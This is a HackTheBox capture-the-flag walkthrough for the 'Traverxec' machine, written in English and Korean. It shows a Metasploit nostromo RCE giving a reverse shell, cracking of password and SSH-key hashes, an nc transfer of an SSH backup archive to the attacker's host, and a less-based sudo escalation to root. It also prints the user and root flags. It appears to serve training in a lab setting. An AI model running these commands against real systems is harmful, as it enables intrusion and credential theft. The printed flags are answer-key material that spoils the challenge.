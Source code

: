 # HackTheBox Walkthrough - Traverxec

**Machine Name**: Traverxec  
**Target IP**: 10.129.3.17  
**Difficulty**: Easy  
**Objective**: Exploit `nostromo 1.9.6` for remote code execution and escalate privileges to root.

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Traverxec 10.129.3.17
```
![nmap](img/nmap.png)

**Results:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
```

> nostromo 1.9.6 웹 서버 취약점 존재

---

## ⚔️ Exploitation

### 🧨 Exploit nostromo 1.9.6 RCE
![exploitdb](img/exploitdb.png)

- Reference: [exploit-db: 47837](https://www.exploit-db.com/exploits/47837)
- Metasploit 사용

```bash
msfconsole
search nostromo
use exploit/multi/http/nostromo_code_exec
set RHOSTS 10.129.3.17
set LHOST 10.10.14.156
run
```
![meterpreter](img/meterpreter.png)

> www-data 권한의 리버스 셸 획득

---

## 🧪 Post Exploitation

### 🔐 .htpasswd 파일에서 해시 확인
![credential](img/credential.png)

```bash
cat /var/nostromo/conf/.htpasswd
```

**Hash**
```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

### 🔓 Hash Cracking

```bash
hashcat -m 500 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
![cracked](img/cracked.png)

> **Password**: `Nowonly4me` (하지만 SSH 로그인 실패)

---

## 📂 SSH Private Key 획득

```bash
cat /var/nostromo/conf/nhttpd.conf
```
![confg](img/confg.png)

```
homedirs                /home
homedirs_public         public_www
```

```bash
ls -al /home/david/public_www/protected-file-area
```
![backup-ssh](img/backup-ssh.png)

```
backup-ssh-identity-files.tgz
```

### 📥 파일 다운로드 및 추출

```bash
nc -lvp 1234 > backup.tgz   # 공격자
nc 10.10.14.156 1234 < backup.tgz   # 타겟
tar -xvf backup.tgz
```
![tgz](img/tgz.png)
![privatekey](img/privatekey.png)

**파일 내역**: `/home/david/.ssh/id_rsa`

### 🧾 SSH 프라이빗 키 크랙

```bash
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![sshcrack](img/sshcrack.png)

> **Passphrase**: `hunter`

```bash
ssh -i id_rsa david@10.129.3.17
```
![sshdavid](img/sshdavid.png)

✅ **david 유저 셸 획득**

---

## 🧑‍💻 User Flag

```bash
cat /home/david/user.txt
```
![userflag](img/userflag.png)

**Answer**: `7482a1ad8a5d9d3ca79b56af29cb9681`

---

## 🚀 Privilege Escalation

### 🔍 Sudo 권한 분석

`sudo -l`은 실패했지만 `/home/david/bin/server-stats.sh` 내에 `sudo journalctl` 명령 확인됨:

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
![serverstatssh](img/serverstatssh.png)
![result](img/result.png)

### ⚠️ Exploit: GTFOBins - `less`

```bash
sudo journalctl -n5 -unostromo.service
```

- `less` 명령으로 실행됨
  ![exploit](img/exploit.png)

- `!sh` 입력으로 쉘 실행 가능

```bash
!sh
```
![root](img/root.png)

✅ **root 권한 획득**

---

## 👑 Root Flag

```bash
cat /root/root.txt
```
![rootflag](img/rootflag.png)

**Answer**: `99c4afb02ff822396f59b4ff250a4639`
